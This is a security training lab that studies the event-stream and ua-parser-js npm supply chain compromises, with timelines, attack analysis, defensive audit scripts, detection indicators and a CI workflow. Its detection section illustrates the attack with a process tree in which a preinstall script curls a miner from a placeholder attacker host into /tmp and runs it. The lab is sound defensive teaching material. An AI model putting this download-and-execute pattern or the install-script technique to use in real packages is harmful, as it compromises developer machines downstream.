

# Lab 6.8: Case Study. event-stream / ua-parser-js

<div class="lab-meta">
  <span>~30 minutes</span>
  <span>Intermediate</span>
  <span>Prerequisites: <a href="../../tier-1/1.6-phantom-dependencies/">Lab 1.6</a></span>
</div>

In November 2018, the npm package `event-stream`. downloaded 2 million times per week. was discovered to contain a targeted cryptocurrency-stealing backdoor. The attack was not a typosquat or a direct compromise. A new contributor, "right9ctrl," offered to help maintain the package after the original author had lost interest. After gaining publish access, they added a new dependency called `flatmap-stream` that contained obfuscated malicious code targeting the Copay Bitcoin wallet.

Three years later, in October 2021, the npm package `ua-parser-js`. used by Facebook, Amazon, Google, and downloaded 8 million times per week. was hijacked when the maintainer's npm account was compromised. The attacker published three malicious versions that installed cryptocurrency miners and credential stealers on every machine that ran `npm install`.

These two incidents represent the two dominant npm supply chain attack vectors: **social engineering maintainer takeover** (event-stream) and **direct account compromise** (ua-parser-js). In this lab, you will study both attacks and extract the defensive patterns that protect against maintainer-level compromise.

---

### Attack Flow



---

## Environment

| Component | Path | Description |
|-----------|------|-------------|
| Package Analysis | `/app/event-stream/` | Reconstructed event-stream and flatmap-stream packages |
| Account Takeover | `/app/ua-parser/` | Analysis of the ua-parser-js account compromise |
| Detection Tools | `/app/detection/` | Scripts for detecting maintainer takeover and malicious updates |
| npm Registry | `npm-registry:4873` | Local Verdaccio registry with attack reconstructions |

## Connect to the Workstation

```bash
./weaklink shell
```

### Workstation Terminal

Use the embedded terminal below, or open a separate terminal and run `./cli/weaklink shell`.

<div class="terminal-embed">
  <iframe src="http://localhost:7681" title="WeakLink Workstation Terminal"></iframe>
</div>

---

???+ info "Phase 1: UNDERSTAND. npm's Trust Model and Maintainer Accounts"

    **Goal:** Understand how npm package publishing works, why maintainer accounts are the keys to the kingdom, and how both attacks exploited this trust model.

### The event-stream timeline

```bash
cat /app/analysis/event-stream-timeline.txt
```

| Date | Event |
|------|-------|
| 2015 | Dominic Tarr creates `event-stream`, a popular Node.js streaming utility |
| 2018-09 | "right9ctrl" contacts Tarr, offers to help maintain the package |
| 2018-09-09 | Tarr transfers npm publish rights to right9ctrl |
| 2018-09-16 | right9ctrl adds `flatmap-stream@0.1.1` as a dependency |
| 2018-10-05 | `flatmap-stream` is updated to include obfuscated malicious code |
| 2018-10-20 | right9ctrl publishes event-stream@3.3.6 with the malicious dependency |
| 2018-11-20 | A developer (jaydenseric) reports the suspicious code on GitHub |
| 2018-11-26 | npm removes `flatmap-stream`; CVE assigned |

### The ua-parser-js timeline

```bash
cat /app/analysis/ua-parser-timeline.txt
```

| Date | Event |
|------|-------|
| 2021-10-22 | Attacker compromises the npm account of ua-parser-js maintainer (Faisal Salman) |
| 2021-10-22 | Malicious versions 0.7.29, 0.8.0, 1.0.0 published within hours |
| 2021-10-22 | CISA issues advisory; npm removes malicious versions |
| 2021-10-22 | Clean versions 0.7.30, 0.8.1, 1.0.1 published |

### Step 1: Understand npm's publishing model

```bash
cat /app/analysis/npm-trust-model.txt
```

npm's trust model is simple: **whoever has the publish token can publish any version.** There is no code review, no multi-party approval, and no delay between publishing and availability. A single compromised token = instant access to every downstream consumer.

### Step 2: The scale of the attack surface

```bash
echo "
event-stream at time of attack:
  - 2 million weekly downloads
  - Used by thousands of packages as a dependency
  - Maintained by a single person who had moved on

ua-parser-js at time of attack:
  - 8 million weekly downloads
  - Used by Facebook, Amazon, Microsoft, Google
  - 1,200+ direct dependents on npm
  - Maintained by a single person
"
```

### Step 3: Why maintainers hand off packages

```bash
cat /app/analysis/maintainer-burnout.txt
```

Dominic Tarr explained his decision publicly: "I don't get any tokens of appreciation for contributions to event-stream. I don't mass collect donations, and I don't mass refuse contributions. I was mass collecting questions. Somebody offered to mass help. I mass accepted." This is a systemic problem. npm hosts millions of packages maintained by volunteers with no support structure.

---

???+ warning "Phase 2: ANALYZE. Two Different Attack Mechanisms"

    **Goal:** Walk through the technical details of both the event-stream social engineering attack and the ua-parser-js account hijack.

### event-stream: The dependency injection attack

```bash
# Examine the flatmap-stream package
cat /app/event-stream/flatmap-stream/package.json
cat /app/event-stream/flatmap-stream/index.js
```

The `flatmap-stream` package appeared to be a legitimate utility. Version 0.1.0 was clean. Version 0.1.1 added an encrypted payload in `index.min.js` that was not visible in the unminified source.

```bash
# Examine the obfuscated payload
cat /app/event-stream/flatmap-stream/index.min.js
```

### Step 1: Deobfuscate the payload

```bash
cat /app/event-stream/analysis/deobfuscated-payload.js
```

The payload was AES-encrypted and only activated under specific conditions:

1. It checked if the `description` field in the package's `package.json` matched a specific value
2. That value was the `description` of the **Copay Bitcoin wallet** app
3. If matched, it decrypted the second stage and injected it into Copay's build process
4. The injected code stole the wallet's private keys and sent them to an attacker-controlled server

This was a **targeted attack**: the malicious code was inert in every application except Copay. The 2 million weekly downloaders of event-stream were collateral. the attacker only wanted Copay's Bitcoin private keys.

### Step 2: Why it evaded detection

```bash
echo "
Why the event-stream attack was hard to detect:
1. OBFUSCATION: The payload was encrypted, not plaintext
2. TARGETING: The malicious code only activated in Copay, not in general use
3. INDIRECTION: The backdoor was in a dependency of event-stream, not event-stream itself
4. LEGITIMATE HISTORY: flatmap-stream 0.1.0 was clean; only 0.1.1 was malicious
5. MAINTAINER TRUST: right9ctrl had legitimate publish access from the original author
"
```

### ua-parser-js: The account compromise attack

```bash
# Examine the malicious versions
cat /app/ua-parser/malicious-0.7.29/package.json
cat /app/ua-parser/malicious-0.7.29/preinstall.js
```

### Step 3: What the hijacked versions did

```bash
cat /app/ua-parser/analysis/payload-analysis.txt
```

The three malicious versions (0.7.29, 0.8.0, 1.0.0) contained `preinstall` scripts that:

**On Linux:**
1. Downloaded a cryptocurrency miner from a remote server
2. Installed it in `/tmp/` and started it as a background process
3. Connected to a Monero mining pool

**On Windows:**
1. Downloaded a `.exe` file
2. Executed it. the binary was a credential stealer (password recovery tool)
3. Also installed the crypto miner

```bash
# See the preinstall script
cat /app/ua-parser/malicious-0.7.29/preinstall.sh
```

Unlike event-stream, this was a **mass attack**: every machine that ran `npm install` with the vulnerable version got infected, regardless of the application.

### Step 4: Compare the two attack models

```bash
echo "
                    | event-stream          | ua-parser-js
=====================|=======================|========================
Attack type          | Social engineering    | Account compromise
Duration             | ~2 months             | ~4 hours
Target               | Copay Bitcoin wallet  | All users
Payload              | Encrypted, targeted   | Plaintext, mass
Detection difficulty | Very hard             | Moderate (obvious payload)
Attacker access via  | Maintainer handoff    | Stolen npm credentials
Fix                  | Remove dependency     | Publish clean version
"
```

---

???+ success "Phase 3: LESSONS. Protecting Against Maintainer Takeover"

    **Goal:** Implement controls that detect and prevent both social engineering maintainer takeover and account compromise.

### Lesson 1: Monitor for maintainer changes in your dependency tree

```bash
cat > /app/defenses/check-maintainers.sh << 'SHELLEOF'
#!/bin/bash
# Monitor npm package maintainers for changes
PACKAGE="$1"
KNOWN_MAINTAINERS_FILE="/app/defenses/known-maintainers/${PACKAGE}.txt"

CURRENT=$(npm view "$PACKAGE" maintainers --json 2>/dev/null | python3 -c "
import sys, json
data = json.load(sys.stdin)
for m in (data if isinstance(data, list) else [data]):
    print(m if isinstance(m, str) else m.get('name', ''))
" | sort)

if [ -f "$KNOWN_MAINTAINERS_FILE" ]; then
    KNOWN=$(cat "$KNOWN_MAINTAINERS_FILE" | sort)
    if [ "$CURRENT" != "$KNOWN" ]; then
        echo "ALERT: Maintainers changed for $PACKAGE!"
        echo "  Previous: $KNOWN"
        echo "  Current:  $CURRENT"
        echo "  Action: Review the change and verify the new maintainer"
    else
        echo "OK: Maintainers unchanged for $PACKAGE"
    fi
else
    echo "$CURRENT" > "$KNOWN_MAINTAINERS_FILE"
    echo "Baseline created for $PACKAGE: $CURRENT"
fi
SHELLEOF
chmod +x /app/defenses/check-maintainers.sh
```

### Lesson 2: Lock the full dependency tree

```bash
cat /app/defenses/lockfile-policy.md
```

The event-stream attack added `flatmap-stream` as a new transitive dependency. If downstream consumers had strict lockfiles and reviewed lockfile changes, the new dependency would have been visible:

```bash
# Detect new dependencies in lockfile changes
cat > /app/defenses/detect-new-deps.sh << 'SHELLEOF'
#!/bin/bash
echo "=== Detecting new dependencies in package-lock.json ==="

# In a real PR, you would diff against the base branch
# Here we compare against a baseline
BASELINE="/app/defenses/package-lock-baseline.json"
CURRENT="/app/webapp/package-lock.json"

if [ -f "$BASELINE" ]; then
    NEW_DEPS=$(diff <(jq -r '.packages | keys[]' "$BASELINE" | sort) \
                     <(jq -r '.packages | keys[]' "$CURRENT" | sort) \
                | grep "^>" | sed 's/^> //')
    if [ -n "$NEW_DEPS" ]; then
        echo "NEW DEPENDENCIES DETECTED:"
        echo "$NEW_DEPS"
        echo ""
        echo "Review each new dependency before merging."
    else
        echo "No new dependencies."
    fi
fi
SHELLEOF
chmod +x /app/defenses/detect-new-deps.sh
```

### Lesson 3: Enforce 2FA for npm publishing

```bash
echo "
npm 2FA enforcement:
====================
1. Enable 2FA on your npm account: npm profile enable-2fa auth-and-writes
2. Require 2FA for all organization members: npm org set-2fa <org> mandatory
3. Use automation tokens (not user tokens) for CI publishing
4. Automation tokens are scoped and can be revoked independently

The ua-parser-js attack would have been prevented if:
- The maintainer had 2FA enabled (the attacker had the password but not the 2FA device)
- npm required 2FA for publishing (now available as an organization setting)
"
```

### Lesson 4: Use Socket.dev or similar tools to monitor for suspicious packages

```bash
cat > /app/defenses/package-audit.sh << 'SHELLEOF'
#!/bin/bash
echo "=== Package Supply Chain Audit ==="

# Check for install scripts (like ua-parser-js attack)
echo "--- Checking for packages with install scripts ---"
for pkg in $(jq -r '.packages | keys[] | select(startswith("node_modules/"))' /app/webapp/package-lock.json | sed 's|node_modules/||'); do
    SCRIPTS=$(npm view "$pkg" scripts.preinstall scripts.postinstall scripts.install 2>/dev/null)
    if [ -n "$SCRIPTS" ]; then
        echo "  WARNING: $pkg has install scripts: $SCRIPTS"
    fi
done

# Check for recently published versions (like ua-parser-js attack window)
echo "--- Checking for very recently published versions ---"
for pkg in $(jq -r '.dependencies | keys[]' /app/webapp/package.json 2>/dev/null); do
    PUBLISHED=$(npm view "$pkg" time --json 2>/dev/null | jq -r 'to_entries | sort_by(.value) | last | .value')
    if [ -n "$PUBLISHED" ]; then
        DAYS_AGO=$(( ($(date +%s) - $(date -d "$PUBLISHED" +%s 2>/dev/null || echo 0)) / 86400 ))
        if [ "$DAYS_AGO" -lt 1 ] 2>/dev/null; then
            echo "  ALERT: $pkg was published less than 24 hours ago!"
        fi
    fi
done

echo "=== Audit complete ==="
SHELLEOF
chmod +x /app/defenses/package-audit.sh
```

### Lesson 5: Use npm audit signatures

```bash
# npm now supports package provenance and signatures
echo "
npm provenance (available since npm 9.5.0):
- Packages built on GitHub Actions can include provenance attestation
- npm audit signatures verifies that packages were published from known CI systems
- This prevents account compromise attacks: even with stolen credentials,
  the attacker cannot generate valid provenance from GitHub Actions
"
```

### Verify understanding

```bash
weaklink verify 6.8
```

---

??? danger "Phase 4: DETECT. Identifying Maintainer Takeover and Malicious Updates"

    **Goal:** Detect maintainer changes, suspicious package updates, and malicious install scripts across your dependency tree.

### SIEM / Log Indicators

Maintainer takeover attacks produce two categories of signals: **package metadata changes** (new maintainer, new dependency, unusual version pattern) and **runtime indicators** (install scripts downloading binaries, outbound connections during `npm install`, cryptocurrency mining processes).

**What to look for:**

- npm package maintainer changes for packages in your dependency tree
- New transitive dependencies appearing in `package-lock.json` without corresponding changes in `package.json`
- Install scripts (`preinstall`, `postinstall`) in packages that previously did not have them
- `npm install` processes spawning child processes (curl, wget, powershell) or making outbound connections
- Cryptocurrency mining processes started by Node.js or npm

### Network Indicators

| Indicator | Attack | What It Means |
|-----------|--------|---------------|
| HTTP GET to mining pool from developer workstation | ua-parser-js | Crypto miner installed by malicious install script |
| HTTP POST to unknown endpoint from `npm install` | event-stream | Install script exfiltrating data |
| DNS query to `.xmr.` or mining pool domains | ua-parser-js | Monero mining pool connection |

### EDR / Process Indicators

**event-stream pattern:**

- No direct EDR indicators (payload only activated in Copay)
- Encrypted payload decryption during build would show in process memory analysis

**ua-parser-js pattern:**

```
npm install
 └── node preinstall.js
      ├── curl -fsSL http://<attacker>/miner -o /tmp/miner    ← download
      ├── chmod +x /tmp/miner                                  ← set executable
      └── /tmp/miner --pool=...                                ← start mining
```

- Child processes of `node` or `npm` downloading and executing binaries
- New processes in `/tmp/` consuming high CPU (mining)
- `preinstall.sh` or `preinstall.js` making outbound HTTP calls

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Both attacks compromised packages distributed via npm registry |
| **Trusted Relationship** | [T1199](https://attack.mitre.org/techniques/T1199/) | event-stream: attacker gained trust as a maintainer through social engineering |
| **Valid Accounts** | [T1078](https://attack.mitre.org/techniques/T1078/) | ua-parser-js: attacker used compromised npm credentials to publish |
| **Resource Hijacking** | [T1496](https://attack.mitre.org/techniques/T1496/) | ua-parser-js: malicious version installed cryptocurrency miners |

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "npm install spawned unexpected child process (curl, wget)" (EDR)
    - "Cryptocurrency mining connection from developer workstation" (network/proxy)
    - "npm package maintainer change detected" (registry monitoring)
    - "New transitive dependency in lockfile without package.json change" (CI check)

    These two attacks represent the two main threat models for package registry supply chain compromise. The event-stream attack (social engineering) is harder to detect because the malicious code is obfuscated and targeted. The ua-parser-js attack (account hijack) is easier to detect because the payload is broad and noisy (crypto miners, credential stealers), but it also has immediate impact on every consumer.

    **Triage steps:**

    1. Check if the alerted package is in your dependency tree (direct or transitive)
    2. Check the package version against known-bad versions from the advisory
    3. If affected: check if `npm install` ran during the exposure window
    4. For crypto miner attacks: check for processes consuming high CPU in `/tmp/` or unusual mining pool connections
    5. For targeted attacks (event-stream style): check if your application matches the targeting criteria in the advisory
    6. Remediate: update to clean version, `npm ci` to rebuild from lockfile, rotate any exposed credentials

    **False positive rate:** Low for crypto miner detection (mining pool connections are distinctive). Medium for maintainer change alerts (legitimate handoffs do happen). High for new dependency alerts (must be combined with other signals).

---

??? example "CI Integration"

    Monitor for maintainer changes and malicious install scripts in your dependency tree.

    **`.github/workflows/npm-supply-chain.yml`:**

    ```yaml
    name: npm Supply Chain Monitor

    on:
      pull_request:
        paths:
          - "package.json"
          - "package-lock.json"

    jobs:
      supply-chain-check:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4
            with:
              fetch-depth: 0

          - name: Detect new dependencies
            run: |
              echo "--- Checking for new dependencies ---"
              NEW_DEPS=$(diff \
                <(git show origin/main:package-lock.json | jq -r '.packages | keys[]' | sort) \
                <(jq -r '.packages | keys[]' package-lock.json | sort) \
                | grep "^>" | sed 's/^> //' | grep "node_modules/")
              if [ -n "$NEW_DEPS" ]; then
                echo "::warning::New transitive dependencies detected:"
                echo "$NEW_DEPS"
                for dep in $NEW_DEPS; do
                  DEP_NAME=$(echo "$dep" | sed 's|node_modules/||')
                  echo "  Checking $DEP_NAME..."
                  npm view "$DEP_NAME" maintainers time.modified 2>/dev/null || echo "  (not found on registry)"
                done
              fi

          - name: Check for install scripts in dependencies
            run: |
              echo "--- Checking for install scripts ---"
              FOUND=0
              npm ci --ignore-scripts
              for dir in $(find node_modules -maxdepth 2 -name "package.json" -not -path "*/node_modules/*/node_modules/*"); do
                PKG_NAME=$(jq -r '.name // empty' "$dir")
                for script in preinstall postinstall install; do
                  SCRIPT_CONTENT=$(jq -r ".scripts.$script // empty" "$dir")
                  if [ -n "$SCRIPT_CONTENT" ]; then
                    echo "::warning::$PKG_NAME has $script script: $SCRIPT_CONTENT"
                    FOUND=1
                  fi
                done
              done
              if [ "$FOUND" -eq 1 ]; then
                echo "::warning::Dependencies with install scripts detected. Review before enabling scripts."
              fi

          - name: Run npm audit
            run: |
              npm audit --omit=dev || true
    ```

---

## What You Learned

1. **Maintainer accounts are the master key**. whoever has npm publish access can push any code to any version. A single compromised or transferred account affects every downstream consumer.
2. **Social engineering is as effective as hacking**. the event-stream attacker simply asked the maintainer for access and received it. No exploit, no credential theft, just a polite request from someone who had been contributing patches.
3. **Targeted payloads evade detection**. the event-stream backdoor only activated in the Copay Bitcoin wallet. It was inert in every other application, making it nearly invisible to automated scanning.
4. **Account hijacking produces noisy but immediate impact**. the ua-parser-js attacker's crypto miner payload was easy to detect but affected 8 million weekly downloaders within hours.
5. **Lockfile review catches dependency injection**. if teams reviewed lockfile changes in PRs, the addition of `flatmap-stream` to event-stream's dependency tree would have been visible as a new entry not explained by the code changes.

## Further Reading

- [Dominic Tarr's Statement on event-stream](https://gist.github.com/dominictarr/9fd9c1024c94592bc7268d36b8d83b3a)
- [GitHub Advisory: flatmap-stream (GHSA-7fhm-mqm4-2wp7)](https://github.com/advisories/GHSA-7fhm-mqm4-2wp7)
- [CISA: ua-parser-js Compromise](https://www.cisa.gov/news-events/alerts/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js)
- [Snyk: event-stream Incident Analysis](https://snyk.io/blog/a-post-mortem-of-the-malicious-event-stream-backdoor/)
- [Socket.dev: Detecting Supply Chain Attacks](https://socket.dev/blog/inside-node-modules)
